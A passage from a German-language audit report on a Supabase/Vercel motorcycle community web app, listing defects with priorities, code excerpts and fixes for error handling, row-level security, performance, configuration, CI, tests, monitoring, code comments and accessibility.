if (OFFLINE_MODE || !_myUid) { lsWrite(LS_GROUPS, _groups); return }
const uid = _usernameToUid(username); if (!uid) return
await supabase.from('group_members').delete().eq('group_id', groupId).eq('user_id', uid)  // Ergebnis verworfen
```

**Warum das ein Problem ist:** Das lokale Modell und die Datenbank laufen auseinander, und niemand merkt es bis zum nächsten Neuladen. Bei `kickMember`/`banMember` heißt das: der Moderator sieht den Nutzer verschwinden, der Nutzer ist weiterhin Mitglied. Bei `toggleReactionInGroup` (siehe 7.2) passiert es garantiert und bei jedem.

Zwei Funktionen machen es richtig und zeigen das Muster: `joinGroup:1030-1034` (`if (error) { g.members.pop(); return { ok: false, error } }`) und `sendFriendRequest:1654-1661`.

**Empfohlener Fix:** Ein gemeinsamer Helfer, der bei Fehler zurückrollt:
```js
async function write(op, rollback) {
  const { error } = await op()
  if (error) { rollback(); console.error('[API]', error.message); return { ok: false, error: error.message } }
  return { ok: true }
}
```
und die 28 Aufrufstellen darauf umstellen. Die Aufrufer in `community.js` prüfen dann `res.ok` und zeigen `toast()`. **Aufwand: L**

#### 7.2 Reaktionen auf fremde Nachrichten scheitern immer, still — P1

**Fundstellen:** `src/js/community-api.js:1293`, `:1561`; Ursache `supabase/schema.sql:283-288`

```js
// community-api.js:1278-1293
export async function toggleReactionInGroup(groupId, msgId, emoji) {
  …
  msg.reactions[emoji] = [...users, myName]            // lokal sofort sichtbar
  await supabase.from('messages').update({ reactions: msg.reactions }).eq('id', msgId)
}
```
```sql
-- schema.sql:283-288
CREATE POLICY "msg_update" ON messages FOR UPDATE
  USING (author_id = auth.uid() OR EXISTS (… gm.role IN ('owner','mod')));
```

**Warum das ein Problem ist:** Ein normales Mitglied darf fremde Nachrichten nicht ändern — Reaktionen sind aber ein `UPDATE` auf genau diese Zeile. Das `update` trifft null Zeilen, meldet keinen Fehler (PostgREST liefert dafür 200 mit leerem Ergebnis), und der Rückgabewert wird ohnehin verworfen. Der Nutzer sieht sein 👍, `openReactPicker:256-258` zeichnet neu, alles wirkt richtig — nach dem nächsten Laden ist es weg. Auf eigene Nachrichten funktioniert es, was die Fehlersuche zusätzlich verwirrt.

**Empfohlener Fix:** Reaktionen gehören nicht in eine `jsonb`-Spalte der Nachricht, sondern in eine eigene Tabelle mit eigener Policy:
```sql
CREATE TABLE message_reactions (
  message_id uuid REFERENCES messages(id) ON DELETE CASCADE,
  user_id    uuid REFERENCES profiles(id) ON DELETE CASCADE,
  emoji      text NOT NULL,
  PRIMARY KEY (message_id, user_id, emoji)
);
ALTER TABLE message_reactions ENABLE ROW LEVEL SECURITY;
CREATE POLICY "mr_all" ON message_reactions FOR ALL USING (user_id = auth.uid()) WITH CHECK (user_id = auth.uid());
```
Das löst nebenbei das Nebenläufigkeitsproblem: aktuell überschreiben zwei gleichzeitige Reaktionen einander, weil beide das ganze `reactions`-Objekt schreiben. **Aufwand: M**

#### 7.3 Stummschalten unterdrückt keine Push-Nachrichten — P1

**Fundstellen:** `src/js/community.js:217`, `:226`; Gegenstelle `src/js/auth.js:90`

```js
// community.js:215-222
function _syncMuteToServer(key, untilTs) {
  if (OFFLINE_MODE || !supabase) return
  const session = getSession(); if (!session?.id) return     // ← session hat kein .id
  supabase.from('notification_mutes').upsert({ user_id: session.id, … })
}
```
```js
// auth.js:90 — so sieht die Session aus
_sbSession = { username, uid }
```

**Warum das ein Problem ist:** Das Feld heißt `uid`, nicht `id`. `session?.id` ist immer `undefined`, die Funktion kehrt jedes Mal in Zeile 217 zurück. `notification_mutes` bleibt dauerhaft leer. `api/push-trigger.js:104-110` und `:143-151` fragen die Tabelle brav ab, finden nie etwas und senden. Wer einen Chat stummschaltet, bekommt die Push-Nachricht trotzdem — die einzige Benachrichtigung, die man auf dem Handy nicht wegklicken kann.

Derselbe Fehler in `_unsyncMuteFromServer:226`.

**Empfohlener Fix:** `session?.uid` an beiden Stellen. Ein Einzeiler. Danach mit einem echten Gerät prüfen — die Tabelle war bisher immer leer, der ganze Pfad ist ungetestet. **Aufwand: S**

#### 7.4 71 leere `catch`-Blöcke — P2

Verteilt über alle Module, meist `try { … } catch {}` um `localStorage`-Zugriffe. Für `localStorage` ist das vertretbar und in `account.js:1946-1951` sogar ausdrücklich begründet. Problematisch sind die Stellen, an denen echte Programmfehler verschluckt werden:

- `src/js/auth.js:219` — `listeners.forEach(fn => { try { fn(s) } catch {} })`: ein Fehler in einem Auth-Listener verschwindet spurlos.
- `src/js/community-api.js:578, 624-626` — Broadcast-Fehler: „wer ist im Talk"-Updates gehen still verloren.
- `src/js/voice.js:376, 386` — `switchActiveDevice`-Fehler: der Gerätewechsel scheitert wortlos.
- `src/js/ai.js:44` — `catch (_) {}`: die 403-Antwort aus 9.1 wird hier zu „KI-Erklärung nicht verfügbar."

**Fix:** In leere `catch`-Blöcke mindestens ein `console.warn` setzen, damit Sentry sie sieht (sobald Sentry an ist, siehe 12.1). **Aufwand: M**

#### 7.5 Keine Error Boundary, kein globaler Handler — P2

Es gibt kein `window.addEventListener('error')` und kein `unhandledrejection`. Wirft ein Bildschirm beim Rendern, bleibt ein halb gebauter oder leerer Container stehen. Der einzige Auffangbereich ist `app.js:83-87` für die Wiederherstellung nach dem Neuladen.

`main.js` hat drei Zeilen und keinerlei Absicherung:
```js
import './styles/main.css'
import { startApp } from './js/app.js'
startApp()
```

**Fix:**
```js
try { startApp() } catch (err) {
  document.body.innerHTML = '<div style="…">Etwas ist schiefgelaufen. Bitte lade die Seite neu.</div>'
  throw err   // damit Sentry es sieht
}
window.addEventListener('unhandledrejection', e => console.error('[unhandled]', e.reason))
```
**Aufwand: S**

---

### 8 — Performance

#### 8.1 Einzelbilder bis 7,97 MB — P1

**Fundstellen:** `public/bikes/`, `public/hdri/`, referenziert u. a. in `src/js/matching.js:150`, `landing.js:45`

| Datei | Größe |
|---|---|
| `public/hdri/studio.hdr` | 13,61 MB |
| `public/bikes/Quiz Bike/akira_guy_on_motorcycle_animated.glb` | 8,76 MB |
| `public/bikes/harley_seventytwo_2015.png` | **7,97 MB** |
| `public/bikes/haendler_beratung.png` | 7,72 MB |
| `public/bikes/Händler & beratung .png` | 7,72 MB (**identisches Bild, zweiter Name**) |
| `public/rider/Front.png` | 4,45 MB |
| `public/__video/hero.mp4` | 3,74 MB |

`public/` gesamt: **98 MB**.

**Warum das ein Problem ist:** `harley_seventytwo_2015.png` steckt in `matching.js:150` als `image` und wird auf der Entdecken-Kachel gezeigt (`landing.js:94`). Ein PNG statt WebP, in Originalauflösung, für eine Kachel von wenigen hundert Pixeln. Über Mobilfunk sind das mehrere Sekunden für ein Bild. Das Hero-Video ist vorbildlich behandelt (`landing.js:327-346`: verzögert, mit Rücksicht auf `saveData` und `prefers-reduced-motion`) — die Bilder nicht.

Zusätzlich sind `Community & Gear .png` / `community_gear.png` und `Händler & beratung .png` / `haendler_beratung.png` je zweimal dieselbe Datei: ~10 MB doppelt.

**Empfohlener Fix:**
```bash
# einmalig, mit sharp oder squoosh-cli
npx @squoosh/cli --webp '{"quality":80}' --resize '{"width":1600}' public/bikes/*.png
```
Danach die Pfade in `matching.js` und `landing.js` auf `.webp` umstellen und `` konsequent `loading="lazy"` geben (in `landing.js` schon vorhanden, in `garage.js`/`bike-detail.js` nicht überall). Die vier Duplikate löschen. Erwartete Ersparnis: 98 MB → unter 15 MB. **Aufwand: M**

#### 8.2 Beim Start wird alles geladen, was es gibt — P1

**Fundstellen:** `src/js/community-api.js:144`, `:179-217`, `:293-297`, `:349`

```js
async function _loadProfiles() {
  const { data } = await supabase.from('profiles').select('*')       // :144 — ALLE Profile, mit base64-Avataren
}
async function _loadDMs() {
  const { data } = await supabase.from('messages')                   // :293 — ALLE DMs, seit jeher
    .select(…).not('dm_thread', 'is', null).order('created_at', { ascending: true })
}
const channelIds = groups.flatMap(g => (g.channels || []).map(c => c.id))
let { data: msgs } = await supabase.from('messages')                 // :197-201 — ALLE Nachrichten ALLER Kanäle
  .select(…).in('channel_id', channelIds).order('created_at', { ascending: true })
const { data } = await supabase.from('invites').select('*')          // :349 — ALLE Invites, aller Gruppen
```

Kein `.limit()`, kein `.range()`, kein Zeitfenster. RLS filtert auf das Sichtbare, aber „sichtbar" ist bei `profiles` und `invites` alles.

**Rechnung bei 1.000 Nutzern:** 1.000 Profile mit je 500 KB Avatar = 500 MB, bei **jedem** Öffnen der Community. Das ist nicht langsam, das ist unbenutzbar — und auf Supabase kostet ausgehender Traffic.

**Empfohlener Fix:** In dieser Reihenfolge:
1. `select('*')` in `:144` durch eine Feldliste **ohne** `avatar` ersetzen; Avatare bei Bedarf pro Nutzer nachladen (oder als Storage-URL, siehe 2.3).
2. `_loadDMs` auf die letzten 50 Nachrichten je Unterhaltung begrenzen, ältere beim Hochscrollen nachladen.
3. `_loadGroups` lädt Nachrichten nur für den geöffneten Kanal, nicht für alle.
4. `_loadInvites` nur für Gruppen, in denen man Mod ist (ergibt sich aus 3.4).

**Aufwand: L** — aber Punkt 1 allein ist S und nimmt den größten Teil weg.

#### 8.3 Zwei Chunks über 500 kB — P2

Aus dem Build:
```
dist/assets/community-DQwyKLue.js       670,00 kB │ gzip: 170,23 kB
dist/assets/meshopt_decoder.module.js   648,51 kB │ gzip: 161,95 kB
dist/assets/bike-detail-Dr8AFyUC.js     168,65 kB │ gzip:  44,11 kB
dist/assets/index-Dms0V3w-.css          275,77 kB │ gzip:  47,27 kB
```

Der Community-Chunk zieht `livekit-client` mit, obwohl Sprachkanäle eine Nebenfunktion sind. `meshopt_decoder` (162 kB gzip) gehört zu three.js und wird nur für 3D-Modelle gebraucht.

Zusätzlich meldet der Build:
```
matching.js is dynamically imported by app.js but also statically imported by
account.js, bike-detail.js, drop-animation.js, garage.js, landing.js —
dynamic import will not move module into another chunk.
```
Der dynamische Import in `app.js:24` bringt also nichts.

**Fix:** `voice.js` erst beim Klick auf einen Talk dynamisch importieren (`community.js:24-27` in ein `await import('./voice.js')` umbauen). Spart ~120 kB gzip für alle, die nie telefonieren. **Aufwand: M**

#### 8.4 Positiv: Code-Splitting und Vorabladen sind durchdacht — kein Mangel

`app.js:23-34`, `landing.js:661-675` und `drop-animation.js:192` zeigen echte Sorgfalt: Quiz-Assets werden erst geladen, wenn der Zeiger über dem Start-Knopf steht, mit Rückfallebene nach 12 s und nur bei tragfähiger Verbindung. Der begleitende Kommentar erklärt, was vorher falsch war. Das ist der Standard, an dem sich 8.1 und 8.2 messen lassen sollten.

---

### 9 — Konfiguration & Umgebungen

#### 9.1 `VITE_GMAPS_KEY` fehlt in Produktion — die Karte ist tot und zeigt stattdessen die erfundenen Händler — P0
*Weil eine einzelne fehlende Variable eine sichtbare Falschaussage gegenüber Nutzern erzeugt — und zwar aktuell, nicht hypothetisch.*

> **Korrektur gegenüber dem ersten Entwurf dieses Reports.** Ich hatte aus `.env.production.local` (Stand 14.08.) geschlossen, dass `ALLOWED_ORIGINS` und die LiveKit-/VAPID-Variablen in Produktion fehlen. **Das war falsch** — die Datei war schlicht veraltet. `vercel env ls production` zeigt alle 13 Server-Variablen als gesetzt (`ALLOWED_ORIGINS` seit 13 Tagen, LiveKit und VAPID seit 10–11 Tagen). Die `/api/*`-Endpunkte antworten also **nicht** pauschal mit 403.
>
> Die Prüfung hat dafür ein anderes Loch gezeigt, das ich vorher nicht hatte: **`VITE_GMAPS_KEY` ist in Vercel nicht gesetzt.** Ebenso wenig `VITE_SENTRY_DSN` und `SENTRY_DSN`.

**Fundstellen:** `src/js/garage.js:45, 936, 1406-1414` · `src/js/marketplace.js:296-311` · `src/js/garage.js:783-813` · Vercel-Projekt `moto-matchwbapp`

```js
// garage.js:45
const GMAPS_KEY = import.meta.env.VITE_GMAPS_KEY;
// garage.js:936 — ohne Wert steht dort key=undefined
s.src = `https://maps.googleapis.com/maps/api/js?key=${GMAPS_KEY}&libraries=places&loading=async&callback=${cbName}`;
// garage.js:1406-1414 — der Fehlerfall
} catch (err) {
  console.warn("[hub] Map init failed:", err);
  renderDealerFallbackList(activePill?.dataset.query || "Motorradwerkstatt");
}
```

**Die Kette in einem Satz:** Variable fehlt → `key=undefined` → Google lehnt ab → `catch` → **`renderDealerFallbackList()` zeigt die 40 erfundenen Betriebe aus `dealers.js` als Ergebnisliste mit Entfernungsangabe.** Das ist kein hypothetischer Fall, das ist der aktuelle Produktionszustand.

Dieselbe Bauart bei der Marktplatzsuche, dort mit einem anderen Auslöser (Tavily-Ausfall, Kontingent, Netz):
```js
// garage.js:786-813
if (!el || items.length === 0) throw new Error("no results");
…
.catch(() => {
  el.innerHTML = staticItems.map(item => `…${item.title}…${item.price}…`)   // die erfundenen Inserate
```

**Empfohlener Fix:** Zwei Dinge, beide klein:
1. `VITE_GMAPS_KEY` in Vercel setzen (und in der Google Cloud Console per HTTP-Referrer auf die eigene Domain beschränken, sonst ist der Key im Bundle frei nutzbar). Falls es kein Abrechnungskonto gibt: die Karte ehrlich als „kommt bald" ausweisen, statt sie scheitern zu lassen.
2. **Wichtiger, unabhängig davon:** die stillen Fallbacks entfernen. Wenn die Karte oder die Suche fehlschlägt, gehört dort ein ehrlicher Leerzustand hin — nicht erfundene Betriebe und Ware. Siehe 16.4.

**Aufwand: S**

#### 9.4 Umgebungsvariablen existieren nur für Production — P2

**Fundstelle:** `vercel env ls production` — alle 13 Variablen sind ausschließlich der Umgebung `Production` zugeordnet.

Preview-Deployments (jeder Branch, jeder Pull Request) starten damit **ohne** `VITE_SUPABASE_URL` — und `supabase.js:13` schaltet still in den `OFFLINE_MODE` (Befund 4.8). Eine Preview-URL zeigt also nicht die App, sondern die localStorage-Demo, die Passwörter im Klartext speichert. Wer eine Preview-Adresse zum Testen weitergibt, gibt etwas anderes weiter, als er denkt.

**Fix:** Variablen zusätzlich für `Preview` setzen (mit dem `dev`-Supabase-Projekt aus 9.2), oder Preview-Deployments im Projekt abschalten. **Aufwand: S**

#### 9.5 `LIVEKIT_API_SECRET` ist in Vercel als „Non-sensitive" hinterlegt — P2

**Fundstelle:** `vercel env ls production`

```
LIVEKIT_API_SECRET   eyJ2IjoidjIiLCJjIj…   Non-sensitive   Production
LIVEKIT_API_KEY      eyJ2IjoidjIiLCJjIj…   Non-sensitive   Production
SUPABASE_SERVICE_ROLE_KEY   Hidden          Sensitive       Production
```

Die übrigen elf Variablen sind korrekt als `Sensitive` markiert — dann sind sie schreibgeschützt und lassen sich nicht mehr auslesen. Bei den drei LiveKit-Einträgen ist das nicht der Fall: der Wert ist im Dashboard sichtbar und wird von `vercel env pull` in eine lokale Datei geschrieben. Für ein API-Secret ist das die falsche Einstellung; `VITE_LIVEKIT_URL` darf es bleiben.

**Fix:** `LIVEKIT_API_SECRET` und `LIVEKIT_API_KEY` löschen und als `Sensitive` neu anlegen. Da der Wert bereits lokal gelegen haben kann, bei der Gelegenheit in LiveKit rotieren. **Aufwand: S**

#### 9.6 Drei verschiedene Node-Versionen — P3

| Ort | Version |
|---|---|
| `.nvmrc` | `20` |
| Vercel-Projekteinstellung (`.vercel/project.json`) | `24.x` |
| Lokal beim Audit | `25.9.0` |

Die Vercel-Einstellung gewinnt gegenüber `.nvmrc`, gebaut wird also mit 24. Die Datei `.nvmrc` beschreibt damit nichts, was irgendwo gilt.

**Fix:** `.nvmrc` auf `24` setzen und lokal `nvm use` benutzen. **Aufwand: S**

#### 9.2 Keine Trennung zwischen Entwicklung, Test und Produktion — P2

Es gibt **eine** Supabase-Instanz. `.env` (lokal) und `.env.production.local` zeigen auf dieselbe `VITE_SUPABASE_URL`. Lokales Entwickeln schreibt damit in die Produktionsdatenbank — jeder Test-Gruppenname, jede Test-Nachricht landet dort, wo auch die Beta-Tester sind. Ein `supabase/schema.sql`-Lauf zum Ausprobieren trifft echte Daten.

**Fix:** Zweites Supabase-Projekt als `dev`, `.env` darauf zeigen lassen, `.env.production.local` nur für `vercel env pull`. **Aufwand: S**

#### 9.3 Supabase-Projekt-ID hartcodiert im Quelltext — P3

**Fundstellen:** `src/js/matching.js:45, 71, 97, 123, 149, 175, 201, 227, 253, 279`

```js
glb: "https://quljniqnizxlhczzfkhq.supabase.co/storage/v1/object/public/models/honda_nr750_1994.glb",
```

Zehnmal dieselbe Projekt-ID fest im Code. Beim Wechsel des Projekts (etwa für 9.2) muss man sie an zehn Stellen suchen.

**Fix:** `const MODELS = \`${import.meta.env.VITE_SUPABASE_URL}/storage/v1/object/public/models\`` und die Einträge auf `` `${MODELS}/…glb` `` umstellen. **Aufwand: S**

---

### 10 — Build, Deploy & CI

#### 10.1 29 uncommittete Dateien, davon 10 unversioniert und für den Betrieb nötig — P0
*Weil ein Deploy aus dem Repository nicht baut — du kannst die Beta derzeit nicht ausliefern.*

**Fundstelle:** `git status`

Unversioniert (`??`), aber vom Code referenziert:

| Datei | Wird gebraucht von |
|---|---|
| `public/manifest.webmanifest` | `index.html:16` |
| `public/icon-192.png` | `manifest`, `public/sw.js:26`, `install.js:64` |
| `public/icon-512.png` | `manifest` |
| `public/apple-touch-icon.png` | `index.html:25` |
| `src/js/install.js` | `app.js:8` |
| `src/js/nav.js` | `app.js:5`, `swipe.js`, `garage.js`, `bike-detail.js` |
| `src/js/swipe.js` | `app.js:6` |
| `src/js/viewport.js` | `app.js:7` |
| `src/js/stickers.js` | `community.js:22` |
| `src/js/match-history.js` | `garage.js`, `bike-detail.js` |

**Warum das ein Problem ist:** `app.js:5-8` importiert vier Module, die in Git nicht existieren. Ein `git clone` gefolgt von `npm run build` **scheitert** mit „Failed to resolve import". Baut Vercel aus dem Repository, ist der aktuelle Stand nicht deploybar. Dazu 19 modifizierte Dateien, darunter `supabase/schema.sql`: die Schema-Änderungen, gegen die die App läuft, sind nicht festgehalten.

Es gibt einen `.vercel`-Ordner, was auf Deploys per CLI (`vercel --prod`) hindeutet — dabei werden lokale Dateien hochgeladen statt geklont, und der Build ginge durch. **NICHT VERIFIZIERBAR — Grund:** die Deploy-Methode steht nicht im Repo. Beide Fälle sind aber P0: entweder der Build ist kaputt, oder produktiv läuft Code, den es in der Versionsverwaltung nicht gibt — dann gibt es kein Rollback und keinen Bezug zwischen Deploy und Commit.

Außerdem steht `HEAD` auf `fix/vercel-lfs`, nicht auf `main`. Welcher Branch in Vercel als Produktion konfiguriert ist, geht aus dem Repo nicht hervor. **NICHT VERIFIZIERBAR — Grund:** kein Zugriff aufs Vercel-Dashboard.

**Empfohlener Fix:** Vor allem anderen. In sinnvollen Häppchen committen (PWA-Assets, Navigation, Sticker, Schema), Branch klären, und einmal in einem frischen Verzeichnis `git clone && npm ci && npm run build` durchlaufen lassen. **Aufwand: S**

#### 10.2 Keine CI, kein Linter, kein Format-Check — P2

`package.json:5-9` kennt genau drei Scripts:
```json
"scripts": { "dev": "vite", "build": "vite build", "preview": "vite preview" }
```
Kein `.github/workflows/`, kein ESLint, kein Prettier. Jeder Fehler wird erst im Browser sichtbar.

Sichtbare Folge: uneinheitlicher Stil im selben Projekt — `community.js` ohne Semikolons, `garage.js` und `matching.js` mit; `landing.js` mit doppelten Anführungszeichen, `community.js` mit einfachen.

**Fix:** Ein Workflow mit `npm ci && npm run build`, dazu ESLint mit `eslint:recommended` und Prettier. Der größte Einzelnutzen wäre `no-unused-vars` und `no-undef` — genau die Klasse Fehler, aus der Befund 7.3 stammt (`session?.id` wäre so nicht aufgefallen, aber vieles Verwandte schon). **Aufwand: M**

#### 10.3 Keine Migrationsstrategie beim Deploy, kein Rollback-Plan, keine belegten Backups — P1

Der Deploy (`vercel.json`) baut das Frontend. Die Datenbank wird **von Hand im SQL-Editor** verändert (`schema.sql:2-3`). Damit gibt es keinen Zeitpunkt, zu dem Code- und Schema-Stand nachweislich zusammenpassen — und beim Zurückrollen des Codes bleibt das Schema, wo es ist.

Zu Backups steht nichts im Repo. Supabase legt bei bezahlten Plänen tägliche Sicherungen an, im Free-Plan nicht. **NICHT VERIFIZIERBAR — Grund:** Plan und Backup-Einstellungen stehen nicht im Repo. Prüfen unter *Database → Backups*.

**Fix:** Siehe 2.1 (Migrations). Zusätzlich vor der Beta einmal `supabase db dump` laufen lassen und die Datei außerhalb ablegen — mit einem Kalendereintrag zur Wiederholung. **Aufwand: S für das Backup, M für die Migrations**

---

### 11 — Tests

#### 11.1 Es gibt keine Tests — P1

**Belegt durch:** kein `*.test.js`/`*.spec.js` im Repo (Dateiliste), kein Test-Runner in `package.json`, kein `coverage/`.

Statt einer allgemeinen Empfehlung: **welche vier Tests das meiste bringen würden**, gemessen an den Befunden dieses Audits.

| Was | Warum genau das | Aufwand |
|---|---|---|
| **RLS-Tests gegen Supabase** — mit zwei Testnutzern prüfen: Kann A in den DM-Thread von B und C schreiben? Kann A einer `invite`-Gruppe beitreten? Kann A `invites` einer fremden Gruppe lesen? | Hätte 3.2, 3.3 und 3.4 gefunden. Das sind die Befunde, die die Beta blockieren, und es sind ~30 Zeilen `supabase-js` in einem Skript | S |
| **`matching.js` — reine Funktionen** — `findTopMatches`, `scoreBikeAgainst`, `parseMinPrice` | Kein DOM, kein Netz, direkt testbar. Die Matching-Logik ist das Produktversprechen, und `findTopMatches:605-620` (Rückfall bei zu kleinem Budget) hat Randfälle, die niemand nachvollzieht | S |
| **`esc()` und `renderText()`** — mit den Nutzlasten aus 4.1 und 4.2 | Verhindert, dass die XSS-Lücken zurückkommen | S |
| **Ein E2E-Durchlauf** — Registrieren → Quiz → Ergebnis → Bike öffnen (Playwright) | `docs/BETA-SMOKETEST.md` und die 30 Screenshots in `docs/screenshots/` zeigen, dass du diesen Ablauf ohnehin von Hand durchgehst | M |

**Fix:** `vitest` als Dev-Dependency, `"test": "vitest run"` in `package.json`, mit den ersten drei Zeilen anfangen. **Aufwand: M**

---

### 12 — Observability

#### 12.1 Wenn die Beta um 3 Uhr nachts ausfällt, erfährst du es gar nicht — P1

Die ehrliche Antwort auf die Frage aus dem Prüfkatalog: **du erfährst es nicht.** Und wenn dir jemand schreibt, hast du keine Daten zur Ursache.

Die Verkabelung ist da und ordentlich gemacht:
- `src/js/monitoring.js:54-68` initialisiert Sentry Browser mit einem sorgfältigen `beforeSend` (`:30-52`), das E-Mails, Tokens und Cookies entfernt.
- Alle vier Functions rufen `Sentry.init` und `report()` auf (`api/ai-match.js:4-12` und Analoges).

Aber: **`VITE_SENTRY_DSN` und `SENTRY_DSN` sind in keiner `.env`-Datei gesetzt.** `monitoring.js:56-59` protokolliert dann `'[Monitoring] deaktiviert — kein DSN'` und tut nichts. `report()` in den Functions prüft `if (process.env.SENTRY_DSN)` und tut ebenfalls nichts.

Es fehlt außerdem:
- **Kein Alerting.** Selbst mit Sentry gäbe es keine Regel „mehr als N Fehler pro Stunde → E-Mail".
- **Kein Uptime-Check.** Fällt Vercel oder Supabase aus, erfährst du es von Nutzern.
- **Kein strukturiertes Logging.** 33 `console.*`-Aufrufe im Client, in Vercel-Logs nur das aus den Functions.
- **Keine `unhandledrejection`-Erfassung** (siehe 7.5) — genau die Fehlerklasse, die dieser Code am häufigsten erzeugt (28 unbehandelte `await`s aus 7.1).

**Empfohlener Fix,** in dieser Reihenfolge, gesamt unter einer Stunde:
1. Sentry-Projekt anlegen, `VITE_SENTRY_DSN` und `SENTRY_DSN` in Vercel setzen. Der Code ist fertig.
2. In `main.js` einen `unhandledrejection`-Handler ergänzen, der an Sentry meldet.
3. Sentry-Alert-Regel: „neuer Fehlertyp" und „> 20 Ereignisse/Stunde" → E-Mail.
4. Einen kostenlosen Uptime-Monitor (UptimeRobot o. Ä.) auf die Startseite und auf `/api/ai-match` setzen.

**Aufwand: S** — der Code ist schon geschrieben, es fehlen zwei Umgebungsvariablen.

---

### 13 — Code-Qualität & Wartbarkeit

#### 13.1 Kommentare, die etwas anderes behaupten als der Code — P2

| Fundstelle | Behauptung | Tatsächlich |
|---|---|---|
| `src/js/matching.js:5-9` | „Scoring Engine — Architected for 40,000+ motorcycles" | 10 hartcodierte Bikes; `setCatalog()` (`:429`) hat **keinen Aufrufer** — nachgeprüft über das gesamte `src/` |
| `src/js/matching.js:581-582` | „At 40,000 bikes: Phase 1 typically eliminates 60-80%, Phase 2 scores ~8,000-16,000 survivors" | Phase 1 läuft über 10 Einträge |
| `src/js/marketplace.js:6-7` | „Production: calls /api/search-places (Supabase Edge Function)" | Es ist eine Vercel Function, keine Supabase Edge Function |
| `src/js/marketplace.js:7-9` | „Development fallback: direct Tavily call (VITE_ key). TODO: Deploy Supabase Edge Function and remove VITE_TAVILY_KEY" | Der direkte Aufruf ist längst weg, `VITE_TAVILY_KEY` existiert nirgends mehr — das TODO ist erledigt und irreführend |
| `src/js/community.js:10-12` | „In localStorage bleiben nur lokale UI-Präferenzen" | `auth.js:442-447` legt dort auch Avatar, Bio, Alter und Führerschein ab (Befund 3 in Abschnitt 2) |
| `supabase/schema.sql:409` | „SECURITY DEFINER erlaubt genau diesen einen kontrollierten Lesezugriff" | Der Zugriff ist nicht kontrolliert (Befund 3.1) |
| `src/js/community.js:460` | „Decorative QR-style graphic (not a scannable code — placeholder for app login)" | Ehrlich — aber der Nutzer liest daneben „Mit QR-Code einloggen" (`:673`) |

**Warum das ein Problem ist:** Bei 38.000 Zeilen sind die Kommentare deine Landkarte. Diese hier führen in die Irre — und `matching.js` besonders, weil sie eine Skalierungsarbeit beschreiben, die noch nicht stattgefunden hat.

**Fix:** Die sieben Stellen korrigieren. Bei `matching.js` den Header ehrlich machen: „Vorbereitet für einen größeren Katalog; aktuell 10 fest eingetragene Modelle, `setCatalog()` noch ungenutzt." **Aufwand: S**

#### 13.2 Die zehn Dateien, die am dringendsten Arbeit brauchen

| # | Datei | Zeilen | Warum genau diese |
|---|---|---|---|
| 1 | `supabase/schema.sql` | 480 | Fünf der neun P0-Befunde stehen hier. Kleinste Datei mit größtem Hebel |
| 2 | `src/js/community-api.js` | 1.805 | 28 ungeprüfte Schreibvorgänge (7.1), vier unbegrenzte Ladefunktionen (8.2), sechs Migrations-Fallbacks |
| 3 | `src/js/community.js` | 5.164 | 20 XSS-Stellen (4.1), der `session?.id`-Fehler (7.3), und zu groß, um sie im Kopf zu behalten |
| 4 | `src/js/auth.js` | 787 | Kontolöschung fehlt (3.5), Registrierung fragil (3.6), Profildaten am falschen Ort, kaputter Apple-Login |
| 5 | `api/_shared.js` | 57 | 57 Zeilen, die die einzige Schutzschicht vor deinen KI-Rechnungen sind — und nicht halten (4.3) |
| 6 | `public/impressum.html` + `datenschutz.html` | 629 | Reine Formulararbeit, aber ohne sie kein Launch |
| 7 | `src/js/marketplace.js` | 312 | 274 Zeilen erfundener Inserate, die produktiv angezeigt werden (9.1) |
| 8 | `src/js/dealers.js` | 326 | 303 Zeilen erfundener Betriebe, als Karten-Rückfall aktiv (16.4) |
| 9 | `src/styles/main.css` | 13.798 | Eine einzige Datei, 47 kB gzip, keine erkennbare Gliederung, kein Weg, Totes zu erkennen |
| 10 | `src/js/bike-detail.js` | 4.699 | Zweitgrößte Datei; mischt Konfigurator, 3D, Community-Tab und Karten-Tab in einem Modul |

#### 13.3 `console.*` in Produktion — P3

33 Aufrufe, davon 4 `console.log`. Die meisten sind bewusste Warnungen zu Migrations-Rückfällen (`community-api.js:182, 187, 206, 928, 1018, 1244`) und im Sinne von Diagnose sinnvoll. `vite.config.js:92-93` protokolliert Pfade des Hero-Videos — greift auf macOS ohnehin nicht.

**Fix:** Nach Sentry (12.1) `console.warn` durch `Sentry.captureMessage` ersetzen, wo es Diagnose ist. **Aufwand: S**

---

### 14 — UX & Zugänglichkeit

#### 14.1 Klickbare Elemente ohne Tastaturzugang — P2

**Fundstellen:** `src/js/landing.js:431` (`<article … data-action>`), `:446` (`<div class="p-discover-cat">`), `:155` (`<div class="p-search-result">`), dazu ~10 weitere in `community.js`/`garage.js`

```html
<article class="p-lifestyle-card" id="${esc(s.id)}" data-action="${esc(s.action)}">
```
mit `card.addEventListener("click", …)` in `:510`. Kein `role`, kein `tabindex`, kein Tastatur-Handler.

Im gesamten `src/js/` steht `role=` **7 mal** und `tabindex` **2 mal** — bei 353 `<button>`. Die Grundlage stimmt also; es sind die Ausnahmen, die fehlen.

**Fix:** Die betroffenen `<div>`/`<article>` durch `<button type="button">` ersetzen (die CSS-Klassen bleiben, `all: unset` im Stylesheet). Wo das nicht geht: `role="button" tabindex="0"` plus `keydown`-Handler für Enter/Space. **Aufwand: M**

#### 14.2 Dialoge ohne Fokusverwaltung — P2

`openAuthModal` (`auth.js:567`), `openFeedbackModal` (`feedback.js:164`), `openConfirmModal` und `showOnboarding` (`onboarding.js:36`) setzen alle den Fokus ins erste Feld (`requestAnimationFrame(… ?.focus())`) — das ist bereits mehr, als viele tun. Es fehlt jedoch:

- **Kein Fokus-Trap:** Tab führt aus dem Dialog heraus in die dahinterliegende Seite.
- **Kein Zurückgeben des Fokus** beim Schließen — der Fokus landet auf `<body>`.
- **Kein `role="dialog"` / `aria-modal="true"`** bei `openAuthModal` und `openFeedbackModal`. (`install.js:61-62` und `landing.js:257` machen es richtig.)
- **Escape schließt nicht überall:** `openFeedbackModal` hat keinen Escape-Handler, `openAuthModal` ebenfalls nicht.

**Fix:** Einen kleinen gemeinsamen Helfer `openModal(el, { onClose })` bauen, der `role`/`aria-modal` setzt, den Fokus einfängt, Escape behandelt und beim Schließen zurückgibt — und die vier Dialoge darauf umstellen. **Aufwand: M**

#### 14.3 Zwei Sackgassen im Ablauf — P2

